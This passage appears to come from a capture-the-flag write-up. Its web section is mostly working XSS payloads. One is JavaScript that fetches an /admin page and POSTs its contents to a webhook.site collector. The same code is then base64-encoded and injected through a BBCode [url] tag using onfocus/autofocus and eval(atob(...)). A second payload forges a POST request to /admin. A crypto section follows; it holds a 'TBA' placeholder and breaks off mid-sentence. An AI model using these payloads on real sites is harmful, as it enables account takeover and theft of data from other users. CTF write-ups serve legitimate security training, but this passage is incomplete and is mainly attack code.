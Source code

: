 
```js
fetch('/admin')
	.then(r=>r.text())
	.then((d)=>{
		fetch(
			'https://webhook.site/[webhook]',
			{method:'POST',body:d}
		)
	})
```

```
[url\"aa\"onfocus=\"eval(atob('ZmV0Y2goJy9hZG1pbicpLnRoZW4ocj0+ci50ZXh0KCkpLnRoZW4oKGQpPT57ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzcyZTEyMGZhLTQyOTEtNDY1ZC05ZDQ1LWI5Zjg0YzM2YmM5OD9jPScrZW5jb2RlVVJJQ29tcG9uZW50KGQpKX0p'))\"autofocus]ciao[/url]
```



```js
fetch(
	'/admin',
	{
		method: 'POST',
		headers: {"Content-Type":"application/json"},
		body: JSON.stringify({id: 1})
	}
)
```

```
[url\"aa\"onfocus=\"eval(atob('ZmV0Y2goJy9hZG1pbicse21ldGhvZDonUE9TVCcsaGVhZGVyczp7IkNvbnRlbnQtVHlwZSI6ImFwcGxpY2F0aW9uL2pzb24ifSxib2R5OkpTT04uc3RyaW5naWZ5KHtpZDogMX0pfSk='))\"autofocus]ciao[/url]
```




## Crypto

### Context
```js
if (await verifyToken(challenge, private_key, token)) {
	coupon = uuid();
	const result = await db.resetUser(user.id, coupon);
	...
```

The private key is generated using the following code:

TBA

### Recover the private key

Searching for all the occurrences of the private key in the source code one finds, at line 48 of `routes/auth.js` where `/auth/login` is treated, the following:

